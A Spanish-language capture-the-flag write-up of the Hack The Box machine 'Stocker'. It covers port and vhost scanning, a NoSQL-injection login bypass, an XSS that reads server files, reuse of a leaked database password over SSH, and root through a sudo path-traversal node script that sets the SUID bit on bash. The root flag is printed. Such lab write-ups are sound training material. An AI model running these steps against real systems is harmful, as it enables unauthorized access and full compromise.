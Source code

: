 Hoy estaremos realizando la maquina stocker de dificultad facil de la plataforma de Hack The Box
![](/assets/img/stocker/machine.png)

## Enumeracion
Empezemos haciendo un escaneo de puertos a la maquina victima
```bash
❯ nmap 10.10.11.196
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-20 14:56 -05
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.095s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.19 seconds
```
Intentemos dectectar la version que corre en estos puertos
```bash
❯ nmap -sCV -p22,80 10.10.11.196 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-20 14:58 -05
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.093s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
|_http-title: Stock - Coming Soon!
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Solo tenemos 2 puertos ssh y http, si enviamos una peticion con curl al servidor  y vemos las cabezeras de respuesta observamos que hay un redirect a un dominio
```bash
❯ curl -s http://10.10.11.196 -I |grep 'Location'
Location: http://stocker.htb
```
Agreguemos este dominio al /etc/hosts para que nuestra maquina sepa a que ip tiene que resolver este dominio
```bash
❯ echo '10.10.11.196 stocker.htb' >> /etc/hosts
```
Esta es la web
![](/assets/img/stocker/web.png)
En la parte inferior de la web hay un comentario interesante el cual nos habla de que hay otro sitio web esto puede ser una pista, como tenemos un dominio intentemos buscar por subdominios.
```bash
❯ gobuster vhost -t 200 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://stocker.htb/ --no-error
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://stocker.htb/
[+] Method:       GET
[+] Threads:      200
[+] Wordlist:     /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/02/20 15:11:43 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb (Status: 302) [Size: 28]
                                               
===============================================================
2023/02/20 15:11:46 Finished
===============================================================
```
Encontramos uno dev.stocker.htb incorporemos este subdominio al /etc/hosts y veamos si el contenido de la web es diferente a dominio principal
```bash
❯ echo '10.10.11.196 dev.stocker.htb' >> /etc/hosts
```
Al ingresar al subdominio podemos ver que hay una redirecion a /login
![](/assets/img/stocker/sub.png)

## login bypass
Despues de estar un rato intentando Inyecciones Sql no pude hacer nada pero todavia me faltaba probar las inyecciones no Sql para esto me dirigi a [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) y voy a interceptar la peticion con burpsuite para hacer algunas pruebas, Si intentamos una inyeccion basica no nos va a funcionar pero si tramitamos la peticion en json logramos bypassear el login
![](/assets/img/stocker/burp.png)

## Explotacion
En la web vemos que es un sitio de compra de articulos si agregamos un articulo al carrito y le damos en enviar compra, lo interceptamos con burpsuite y estan viajando estos campos al enviar la peticion nos devuelve un identificador el cual para ver su contenido hay que ponerlo en la url http://dev.stocker.htb/api/po/<identificador\>
![](/assets/img/stocker/cart.png)
Si en la peticion cambiamos el title por etiquetas html <h1>hola</h1> El servidor me las interpreta correctamente.
![](/assets/img/stocker/hola.png)
Por alguna razon al momento de probar un xss el servidor peta y me devuelve un 501(Internal Server Error) por lo que quiero pensar que puede ser vulnerable a un xss buscando por internet me encontre con este [articulo](https://blog.dixitaditya.com/xss-to-read-internal-files) donde explican como atraves de un xss podemos leer archivos internos de la maquina probemos aver si esto funciona.
![](/assets/img/stocker/pass.png)
Ingresamos con el identificador a la web y vemos el /etc/passwd de la maquina victima e identificamos un usuario angoose.
![](/assets/img/stocker/etc.png)
Vale tenemos una via para leer archivos de la maquina, si metemos caracteres de mas para que el servidor pete vemos que nos muestra la ruta donde esta montado el servidor web /var/www/dev/
![](/assets/img/stocker/error.png)
veamos el index.js de la pagina web
![](/assets/img/stocker/index.png)
Al ver el contenido de este archivo en la web hay credenciales de acceso a la base de datos
```bash
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```
Veamos si estas credenciales se reutilizan para el usuario angoose que indentificamos al ver el /etc/passwd de la maquina victima.

Y funciona
```bash
❯ sshpass -p 'IHeardPassphrasesArePrettySecure' ssh angoose@10.10.11.196

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

angoose@stocker:~$ whoami
angoose
angoose@stocker:~$ 
```
## Escalada De Privilegios
Si vemos los privilegios que tenemos a nivel de sudoers tenemos el privilegio de ejecutar node como cualquier usuario podemos aprovecharnos de esto para escalar privilegios.
```bash
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```
En la ruta que nos da no tenemos capacidad de escritura pero esto no es necesario ya que podemos aplicar un Path Traversal para ejecutar un archivo que se encuentre una ruta totalmente diferente.

Para esto cree un archivo .js atraves del cual poder ejecutar comandos
```bash
angoose@stocker:/tmp$ cat sh.js 
const { exec } = require('child_process');

function runCommand(command) {
  exec(command, (error, stdout, stderr) => {
    if (error) {
      return;
    }
    console.log(`${stdout}`);
  });
}

runCommand('chmod u+s /bin/bash')
angoose@stocker:/tmp$ 
```
Ejecutamos el script y funciono
```bash
angoose@stocker:/tmp$ sudo node /usr/local/scripts/../../../tmp/sh.js

angoose@stocker:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
angoose@stocker:/tmp$ 
```
Ya podemos migrar al usuario root con el privilegio que le dimos a la bash
```bash
angoose@stocker:/tmp$ bash -p
bash-5.0# cat /root/root.txt 
4416100c503c1d819bf0999da1a0cff1
bash-5.0# 
```
Gracias por leer